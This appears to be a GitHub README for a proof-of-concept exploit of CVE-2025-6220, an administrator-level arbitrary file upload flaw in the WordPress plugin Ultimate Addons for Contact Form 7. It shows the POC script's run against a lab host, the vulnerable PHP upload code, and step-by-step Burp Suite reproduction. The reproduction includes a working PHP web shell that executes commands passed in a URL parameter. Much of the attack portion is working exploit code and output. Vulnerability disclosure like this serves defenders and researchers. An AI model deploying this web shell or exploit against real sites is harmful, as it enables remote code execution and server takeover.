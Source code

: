 # Ultimate Addons for Contact Form 7 <= 3.5.12 - Authenticated (Administrator+) Arbitrary File Upload via 'save_options'

The [Ultimate Addons for Contact Form 7](https://wordpress.org/plugins/ultimate-addons-for-contact-form-7/) plugin does not sanitize the file types in its options save functionality, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-6220.py](./CVE-2025-6220.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
python3 CVE-2025-6220.py https://lab1.hacker admin PASSWORD

Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
70e7b99966
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 61299sec preferred_lft 61299sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86240sec preferred_lft 14240sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:bd:e1:95:26 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `uacf7_options_save` functionality in `/wp-content/plugins/ultimate-addons-for-contact-form-7/admin/tf-options/classes/UACF7_Settings.php` processes file uploads without enforcing proper file type validation.

Lines [894-920](https://plugins.trac.wordpress.org/browser/ultimate-addons-for-contact-form-7/trunk/admin/tf-options/classes/UACF7_Settings.php#L894-920) of the `save_options()` function check the HTTP request for $_FILES and only validates the MIME type against a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.

```php
$tf_fonts_extantions = array( 'application/octet-stream' );
for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
    if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
        $tf_font_filename = $_FILES['file']['name'][ $i ];
        move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
    }
}
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Ultimate Addons -> Settings`.
2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
3. Click the `Save` button in the lower right hand corner. 
![test1](./images/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
![test2](./images/2.png)

5. Forward the request and verify the response indicates success:
```json
{"status":"success","message":"Options saved successfully!"}
```
6. Navigate to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](./images/3.png)
